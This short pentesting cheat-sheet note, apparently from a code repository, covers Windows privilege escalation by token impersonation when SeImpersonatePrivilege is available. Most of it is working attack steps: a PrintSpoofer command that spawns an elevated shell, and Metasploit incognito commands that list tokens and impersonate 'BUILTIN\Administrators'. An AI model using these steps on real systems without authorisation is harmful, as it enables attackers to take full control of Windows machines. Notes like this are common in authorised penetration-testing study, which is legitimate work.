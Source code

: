 # Access Token Impersination

---

is an form of priv esc in windows environment, if SeImpersonatePrivilege is available.

#### Manual Exploitation

We can manually exploit this utilizing PrintSpoofer.exe Tool

```
https://github.com/dievus/printspoofer
```
Utilizing following command, should give us elevated privileges.

```
PrintSpoofer.exe -i -c cmd
```

#### Metasploit

once we have a meterpreter session we can make getrprivs

getprivs

if "SeImpersonatePrivilege" is there, we can exploit it. 

load incognito

To list all available tokens:

```
list_tokens -g
```
To impersonate a token

```
impersonate_token "BUILTIN\Administrators" 
```

getuid --> gained privs of <delegation token>


